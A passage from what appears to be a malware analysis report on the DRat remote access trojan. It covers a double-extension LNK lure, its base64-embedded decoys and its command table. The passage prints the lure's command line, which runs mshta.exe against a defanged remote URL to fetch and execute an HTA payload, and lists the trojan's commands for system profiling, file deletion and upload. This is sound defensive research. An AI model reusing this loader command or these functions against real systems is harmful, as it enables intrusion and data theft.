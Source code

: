 

This contains a malicious shortcut file in a double extension format named “DocScanner-Oct.zip․pdf.lnk,” that triggers a remote HTA file as:




C:\Windows\System32\mshta.exe hxxps://www.rockwellroyalhomes.com/js/content/ & mshta.exe



It contains embedded files that are base64 encoded; they are decoy PDF, DLL, and EXE. Similar checks for anti-virus present on the victim machine is done, opens the decoy and drops the final DRat payload, a new Remote Access Trojan named from the PDB path:




d:\Projects\C#\D-Rat\DRat Client\Tenure\obj\Release\MSEclipse.pdb



The 13 commands supported have the following functionality:



Decoded Command
Functionality


getInformitica
Send system info – User & OS name, timestamp, Start-up path


sup
Send a ‘supconfirm’ message to start receiving commands


close
Send a ‘closure’ message to close the connection and exit


Kaamindina
Check running status


del
Delete specific directory (or) file and send confirmation


enterPath
Enter a specific directory and send attributes for each file & sub-folder


backPath
Send the current working directory


driveList
Fetch disk info and DeviceID using:

‘SELECT * FROM Win32_LogicalDisk WHERE DriveType = 3’




fdl
Upload file attributes
